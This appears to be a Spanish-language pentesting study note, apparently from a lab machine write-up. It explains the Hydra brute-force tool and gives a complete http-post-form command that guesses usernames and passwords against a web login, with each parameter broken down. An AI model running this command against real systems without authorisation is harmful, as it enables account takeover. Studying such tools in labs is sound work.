 Es una herramienta de fuerza bruta para crackear credenciales (usuario y contraseña) en servicios como HTTP, FTP, SSH, entre muchos otros.  Automatiza intentos de login usando listas de usuarios y contraseñas.  

```
hydra -L DiccionarioParaUsuarios -P DiccionarioParaContraseñas IpVictima http-post-form "RutaAlEndpointDelFormulario/:VariableDeUsuario=^USER^&VariableDeContraseña=^PASS^:F=ErrorAlEquivocarnosDeCredenciales" -t 64


Ejemplo: hydra -L /usr/share/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt 10.10.10.152 http-post-form '/public/checklogin.htm:username=^USER^&password=^PASS^:F=Your login has failed. Please try again !' -t 64
```
*Parametros*
`-L` Lista de usuarios a probar
`-P`Lista de contraseñas a probar
`IpVictima` La ip del objetivo
`-http-post-form`Modulo de ataque(Es un formulario web que usa método POST)
	*Desglose del argumento:*
		`/public/checklogin.htm` Es el endpoint del fomulario, que lo podemos sacar de el burpsuite y es lo que esta señalado en la imagen
		`username` Variable del usuario, que en este caso es username como se ve en burpsuite
		`password`Variable de la contraseña, que en este caso es password como se ve en el burpsuite
		`F=` Es el error que nos da cuando ponemos unas credenciales erróneas
`-t` Cantidad de hilos

![[Netmon10.png]]